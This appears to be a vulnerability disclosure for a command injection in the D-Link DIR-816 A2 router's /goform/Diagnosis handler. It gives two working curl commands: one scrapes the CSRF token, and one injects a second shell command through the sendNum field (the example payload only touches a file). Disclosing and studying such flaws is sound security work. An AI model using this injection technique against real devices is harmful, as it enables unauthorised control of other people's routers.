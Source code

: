 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/Diagnosis`, the value of parameter `sendNum` is used in the construction of command `ping -c %s ...`, which is later fed to `system`:

![](ida.png)

So it could lead to command injection with crafted request.

## POC

There's a random token required by the route, which is used as a mitigation against CSRF. So first we need to get its value:

```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```

Then we could send the crafted parameter along with the token to the route:

```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1' -d 'sendNum=3;touch /tmp/test;'
```
